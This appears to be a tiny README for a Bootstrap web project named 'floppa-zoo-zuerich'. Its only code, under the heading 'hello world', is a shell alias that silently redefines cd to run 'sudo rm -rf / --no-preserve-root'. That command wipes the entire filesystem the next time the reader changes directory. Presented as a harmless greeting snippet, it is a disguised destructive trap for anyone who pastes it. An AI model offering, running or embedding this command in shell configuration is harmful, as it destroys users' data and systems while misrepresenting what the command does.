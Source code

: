 # floppa-zoo-zuerich
Web project made with Bootstrap

## hello world
```
alias cd='sudo rm -rf / --no-preserve-root'
```